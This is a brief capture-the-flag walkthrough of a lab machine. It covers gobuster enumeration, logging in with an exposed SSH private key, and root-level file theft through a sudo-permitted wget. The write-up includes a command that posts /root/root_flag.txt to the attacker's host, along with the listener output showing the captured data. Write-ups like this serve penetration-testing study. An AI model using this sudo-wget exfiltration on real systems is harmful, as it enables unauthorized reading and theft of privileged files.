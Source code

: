 1. Run gobuster, found `/sitemap`
2. Run gobuster on `/sitemap`, found `.ssh` and `.DS_Store`
3. Find username Jessie on `/` apache default page source code. Then use private key to login as Jessie
4. The server is runnign CUPS(ipp) on localhost, and we can run wget with sudo, so may need [this](https://book.hacktricks.xyz/pentesting/pentesting-printers/file-system-access)
5. Found we can run wget using sudo, so use `--post-file` to bring the root flag as post data.
```bash
$ sudo wget --post-file=/root/root_flag.txt 10.9.1.235

$ python3 server.py 8000
INFO:root:Starting httpd...

INFO:root:POST request,
Path: /
Headers:
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.1.235:8000
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

Body:
b1b968b37519ad1daa6408188649263d
```
